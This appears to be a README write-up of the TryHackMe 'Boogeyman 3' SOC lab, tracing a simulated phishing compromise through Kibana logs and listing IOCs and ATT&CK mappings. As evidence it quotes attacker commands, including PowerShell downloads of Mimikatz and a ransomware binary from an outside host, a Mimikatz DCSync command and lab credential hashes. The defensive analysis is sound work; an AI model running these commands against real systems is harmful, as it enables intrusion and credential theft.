








# Boogeyman 3 (TryHackMe SOC Level 1 Capstone Challenge)

_A phishing-led compromise investigation using **ELK (Kibana)** + Windows telemetry to trace execution from **HTML/ISO lure** → **DLL side-loading via rundll32** → **persistence** → **C2** → **credential dumping (Mimikatz)** → **lateral movement (WinRM)** → **DCSync** → **ransomware download attempt**._

---

## Table of Contents

- [Project Summary](#project-summary)
- [Skills Demonstrated](#skills-demonstrated)
- [Investigation Process](#investigation-process)
  - [Stage 1: Initial Access (CEO Phishing Lure)](#stage-1-initial-access-ceo-phishing-lure)
  - [Stage 2: Initial Execution (ISO/HTA via mshta)](#stage-2-initial-execution-isohta-via-mshta)
  - [Stage 3: Stage 1 Payload (Drop + Execute)](#stage-3-stage-1-payload-drop--execute)
  - [Stage 4: Persistence (Scheduled Task)](#stage-4-persistence-scheduled-task)
  - [Stage 5: Command & Control (Sysmon Network Connection)](#stage-5-command--control-sysmon-network-connection)
  - [Stage 6: Privilege Escalation (UAC Bypass)](#stage-6-privilege-escalation-uac-bypass)
  - [Stage 7: Credential Access (Mimikatz Download + PTH)](#stage-7-credential-access-mimikatz-download--pth)
  - [Stage 8: Discovery via Remote Share](#stage-8-discovery-via-remote-share)
  - [Stage 9: Lateral Movement (PowerShell Remoting / WinRM)](#stage-9-lateral-movement-powershell-remoting--winrm)
  - [Stage 10: Domain Compromise (DCSync)](#stage-10-domain-compromise-dcsync)
  - [Stage 11: Ransomware Download Attempt](#stage-11-ransomware-download-attempt)
- [Indicators of Compromise (IOCs)](#indicators-of-compromise-iocs)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Lessons Learned](#lessons-learned)
- [What I’d Improve Next Time](#what-id-improve-next-time)
- [References](#references)

---

## Project Summary

> **What is this project?**  
>
> I completed the TryHackMe **“Boogeyman 3”** SOC Level 1 Capstone Challenge.  
> This lab simulated a phishing-led compromise against the CEO (**Evan Hutchinson**) at **Quick Logistics LLC**.
>
> The attack chain involved:
> - A phishing email containing an ISO-disguised attachment (`ProjectFinancialSummary_Q3.pdf`)
> - Execution of an HTA/HTML payload via `mshta.exe`
> - Stage 1 implant written/executed using native utilities (`xcopy.exe`, `rundll32.exe`)
> - Persistence via a scheduled task
> - C2 over HTTP (Sysmon network telemetry)
> - Credential dumping and pass-the-hash via **Mimikatz**
> - Remote share discovery and credential reuse for **lateral movement** via WinRM
> - Domain compromise using **DCSync**
> - Attempted download of a ransomware binary

---

## Skills Demonstrated

- ELK / Kibana log investigation (filtering, pivoting, time-boxing)
- Process execution tracing (PID/parent process correlation)
- Windows LOLBin detection (`mshta`, `rundll32`, `xcopy`, PowerShell)
- Persistence identification (Scheduled Task creation)
- Sysmon network connection analysis (event.code: 3)
- Credential dumping & PTH detection (Mimikatz artifacts)
- Lateral movement evidence via WinRM (`wsmprovhost.exe`)
- DCSync detection through command-line telemetry
- IOC extraction and SOC-style documentation/reporting

---

## Investigation Process

> **Investigation window:** Aug 29–30, 2023 (as provided in the lab scenario)

### Stage 1: Initial Access (CEO Phishing Lure)

- **Victim:** Evan Hutchinson (CEO)
- **Lure:** “Urgent Financial Matter Requiring Immediate Attention”
- **Attachment observed:** `ProjectFinancialSummary_Q3.pdf` (appears as a **Disc Image File**)
- **Inside ISO:** `ProjectFinancialSummary_Q3.pdf` (actually an **HTML Application**)

  

---

### Stage 2: Initial Execution (ISO/HTA via mshta)

The initial stage 1 payload executed via `mshta.exe` when the victim opened the HTML application from the mounted ISO.

- **Process:** `mshta.exe`
- **PID (Stage 1 executor):** `6392`
- **Observed command line (example):**
  - `"...\mshta.exe" "D:\ProjectFinancialSummary_Q3.pdf.hta"`



---

### Stage 3: Stage 1 Payload (Drop + Execute)

Stage 1 used native utilities to implant a file, then executed it.

**Drop / implant using XCOPY**
- **Command line:**
```text
"C:\Windows\System32\xcopy.exe" /s /i /e /h D:\review.dat C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat
```

**Execute implanted file using RUNDLL32**
- **Command line:**
```text
"C:\Windows\System32\rundll32.exe" D:\review.dat,DllRegisterServer
```



---

### Stage 4: Persistence (Scheduled Task)

Stage 1 established persistence via a scheduled task.

- **Scheduled task name:** `Review`

Example evidence observed in PowerShell task registration:
```text
Register-ScheduledTask Review -InputObject $D -Force
```

---

### Stage 5: Command & Control (Sysmon Network Connection)

A potential C2 connection was observed via Sysmon network telemetry.

- **C2 endpoint:** `165.232.170.151:80`

Kibana pivot strategy:
- Filter for **Sysmon network connections** (commonly `event.code: 3`) near the execution timestamp.
- Extract `destination.ip` and `destination.port`.


---

### Stage 6: Privilege Escalation (UAC Bypass)

A UAC bypass attempt was observed using a common auto-elevated binary:

- **Process used:** `fodhelper.exe`



---

### Stage 7: Credential Access (Mimikatz Download + PTH)

**Mimikatz downloaded from GitHub**
- **URL:**
```text
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
```

Example download command observed:
```text
powershell.exe -c iwr https://github.com/gentilkiwi/.../mimikatz_trunk.zip -outfile mimi.zip
```



**Credential material used (Pass-the-Hash)**
- **Recovered credential (format username:hash):**
```text
itadmin:F84769D250EB95EB2D7D8B4A1C5613F2
```



---

### Stage 8: Discovery via Remote Share

Using the new credentials, the attacker enumerated a remote share and accessed a file:

- **Remote share path (observed):** `\\WKSTN-1327.quicklogistics.org\ITFiles\...`
- **File accessed:** `IT_Automation.ps1`


---

### Stage 9: Lateral Movement (PowerShell Remoting / WinRM)

The attacker used PowerShell remoting to run commands on the target host.

- **Target hostname:** `WKSTN-1327`
- **New credentials discovered (format username:password):**
```text
QUICKLOGISTICS\allan.smith:Tr!ckyP@ssw0rd987
```

Example execution observed:
```text
Invoke-Command -Credential $credential -ComputerName WKSTN-1327 -ScriptBlock {whoami}
```

**Parent process on the second host (evidence of WinRM):**
- **Answer:** `wsmprovhost.exe`



---

### Stage 10: Domain Compromise (DCSync)

After gaining access to the domain controller, the attacker attempted DCSync via Mimikatz.

**Newly dumped credential material on the second machine (format username:hash):**
```text
administrator:00f80f2538dcb54e7adc715c0e7091ec
```

**DCSync target accounts**
- `administrator`
- **Aside from administrator:** `backupda`

Example observed:
```text
mimikatz.exe "lsadump::dcsync /domain:quicklogistics.org /user:backupda" exit
```

---

### Stage 11: Ransomware Download Attempt

Following credential dumping, the attacker attempted to download a ransomware binary.

- **Ransomware download URL:**
```text
http://ff.sillytechninja.io/ransomboogey.exe
```

Example observed:
```text
powershell.exe -c Invoke-Command -ComputerName WKSTN-0051... -ScriptBlock {iwr http://ff.sillytechninja.io/ransomboogey.exe -outfile C:\Users\...\ransomboogey.exe}
```



---

## Indicators of Compromise (IOCs)

### URLs
- `https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip`
- `http://ff.sillytechninja.io/ransomboogey.exe`

### IP Addresses / Ports
- `165.232.170.151:80`

### Files / Paths
- `D:\ProjectFinancialSummary_Q3.pdf.hta`
- `D:\review.dat`
- `C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat`
- `IT_Automation.ps1` (remote share)

### Processes (notable)
- `mshta.exe`
- `xcopy.exe`
- `rundll32.exe`
- `fodhelper.exe`
- `powershell.exe`
- `wsmprovhost.exe`
- `mimikatz.exe`

### Credentials Observed (lab artifacts)
- `itadmin:F84769D250EB95EB2D7D8B4A1C5613F2`
- `administrator:00f80f2538dcb54e7adc715c0e7091ec`
- `QUICKLOGISTICS\allan.smith:Tr!ckyP@ssw0rd987`

---

## MITRE ATT&CK Mapping

> High-level behavior mapping (focus on the attacker behaviors observed in logs).

- **Initial Access – Spearphishing Attachment** (phishing email to CEO)
- **Execution – User Execution / HTML Application** (`mshta.exe` executing HTA)
- **Execution – Signed Binary Proxy Execution** (`rundll32.exe` used to execute payload)
- **Persistence – Scheduled Task/Job** (scheduled task `Review`)
- **Command and Control – Web Protocols** (HTTP beacon to `165.232.170.151:80`)
- **Privilege Escalation – Abuse Elevation Control Mechanism** (UAC bypass via `fodhelper.exe`)
- **Credential Access – OS Credential Dumping** (Mimikatz)
- **Lateral Movement – Remote Services** (PowerShell remoting / WinRM; `wsmprovhost.exe`)
- **Credential Access – DCSync** (Mimikatz `lsadump::dcsync`)
- **Impact – Ransomware** (ransomware binary download attempt)

---

## Lessons Learned

- Time-boxing searches around a known execution timestamp makes Kibana investigations significantly faster.
- Pivoting from **process execution** → **network telemetry** (Sysmon event.code 3) is an efficient method to confirm C2.
- `wsmprovhost.exe` is a strong indicator of WinRM/PowerShell remoting activity on a target host.
- “Legitimate” Windows utilities (`mshta`, `rundll32`, `fodhelper`) are frequently abused and should be monitored with high sensitivity.

---

## What I’d Improve Next Time

- Build saved Kibana queries (KQL “snippets”) for common SOC pivots:
  - `event.code:1` (process create), `event.code:3` (network), `*\\*` (UNC), `*dcsync*`
- Create a reusable “Incident Timeline” table template to record:
  - timestamp, host, process, command line, user, outcome


---

## References

- [TryHackMe Boogeyman 3 Room](https://tryhackme.com/room/boogeyman3)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Elastic / Kibana Discover](https://www.elastic.co/kibana)

